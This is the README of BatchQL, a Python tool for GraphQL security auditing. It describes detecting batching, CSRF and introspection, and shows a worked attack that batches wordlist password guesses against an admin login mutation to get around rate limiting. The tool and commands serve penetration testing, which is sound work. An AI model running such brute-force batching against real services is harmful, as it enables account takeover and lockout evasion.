 # BatchQL

BatchQL is a GraphQL security auditing script with a focus on performing batch GraphQL queries and mutations. This script is not complex, and we welcome improvements.

When exploring the problem space of GraphQL batching attacks, we found that there were a few blog posts on the internet, however no tool to perform GraphQL batching attacks.

GraphQL batching attacks can be quite serious depending on the functionalities implemented. For example, imagine a password reset functionality which expects a 4 digit pin that was sent to your email. With this tool, you could attempt all 10k pin attempts in a single GraphQL query. This may bypass any rate limiting or account lockouts depending on the implementation details of the password reset flow.

# Detections

This tool is capable of detecting the following:

- Introspection query support
- Schema suggestions detection
- Potential CSRF detection
- Query name based batching
- Query JSON list based batching

# Attacks

Currently, this tool only supports sending JSON list based queries for batching attacks. It supports scenarios where the variables are embedded in the query, or where they are provided in the JSON input.

# Usage

## Enumeration

```
❯ python batch.py -e http://re.local:5000/graphiql -p localhost:8080

Schema suggestions enabled. Use Clairvoyance to recover schema: https://github.com/nikitastupin/clairvoyance
CSRF GET based successful. Please confirm that this is a valid issue.
CSRF POST based successful. Please confirm that this is a valid issue.
Query name based batching: GraphQL batching is possible... preflight request was successful.
Query JSON list based batching: GraphQL batching is possible... preflight request was successful.
Most provide query, wordlist, and size to perform batching attack.
```

## Batching Attacks

1. Save a file that contains your GraphQL query i.e. `acc-login.txt`:

```
mutation emailLoginRemembered($loginInput: InputRememberedEmailLogin!) {
  emailLoginRemembered(loginInput: $loginInput) {
    authToken {
      accessToken
      __typename
    }
    userSessionResponse {
      userToken
      userIdentity {
        userId
        identityType
        verified
        onboardingStatus
        registrationReferralCode
        userReferralInfo {
          referralCode {
            code
            valid
            __typename
          }
          __typename
        }
        __typename
      }
      __typename
    }
    __typename
  }
  }
```

2. Run the following command to run a GraphQL batching attack:

```
❯ python batch.py --query acc-login.txt --wordlist passwords.txt -v '{"loginInput":{"email":"admin@shubs.io","password":"#VARIABLE#","rememberMe":false}}' --size 100 -e http://re.local:5000/graphiql -p localhost:8080
```

The above command does the following:

- Specifies a query from a local file `--query acc-login.txt`.
- Specifies a wordlist `--wordlist passwords.txt`
- Specifies the variable input with the replacement identifier `-v {"loginInput":{"email":"admin@example.com","password":"#VARIABLE#","rememberMe":false}}`
- Specifies the batch size `--size 100`
- Specifies the endpoint `-e http://re.local:5000/graphiql`
- Specifies a proxy `-p localhost:8080`

# References

- [Exploiting GraphQL](https://blog.assetnote.io/2021/08/29/exploiting-graphql/)
- [Damn Vulnerable GraphQL Application](https://github.com/dolevf/Damn-Vulnerable-GraphQL-Application)
- [GraphQL Batching Attack - Wallarm](https://lab.wallarm.com/graphql-batching-attack/)
- [Mitigating Batching Attacks](https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html#mitigating-batching-attacks)
